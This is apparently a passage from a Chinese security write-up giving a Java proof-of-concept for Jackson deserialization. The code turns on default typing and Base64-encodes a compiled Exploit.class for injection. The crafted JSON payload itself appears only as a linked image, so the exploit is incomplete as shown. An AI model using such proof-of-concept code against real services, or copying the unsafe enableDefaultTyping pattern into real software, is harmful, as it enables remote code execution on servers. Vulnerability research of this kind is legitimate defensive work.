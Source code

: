 PoC.java

```plain
package jackson;

import com.fasterxml.jackson.databind.ObjectMapper;
import com.sun.org.apache.xerces.internal.impl.dv.util.Base64;
import org.springframework.util.FileCopyUtils;

import java.io.ByteArrayOutputStream;
import java.io.File;
import java.io.FileInputStream;
import java.io.IOException;

public class PoC {
    public static void main(String[] args)  {
        String exp = readClassStr("xxx\\Exploit.class");
        String jsonInput = "见下方图片";
        System.out.printf(jsonInput);
        ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping();
        fakes0u1 fakes0u1;
        try {
            fakes0u1 = mapper.readValue(jsonInput, fakes0u1.class);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static String aposToQuotes(String json){
        return json.replace("'","\"");
    }

    public static String readClassStr(String cls){
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        try {
            FileCopyUtils.copy(new FileInputStream(new File(cls)),byteArrayOutputStream);
        } catch (IOException e) {
            e.printStackTrace();
        }
        return Base64.encode(byteArrayOutputStream.toByteArray());
    }
}
```

[![](assets/1701606625-3815e7237f2d53dfbde1f1604035d256.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231114144235-feeb6958-82b8-1.png)
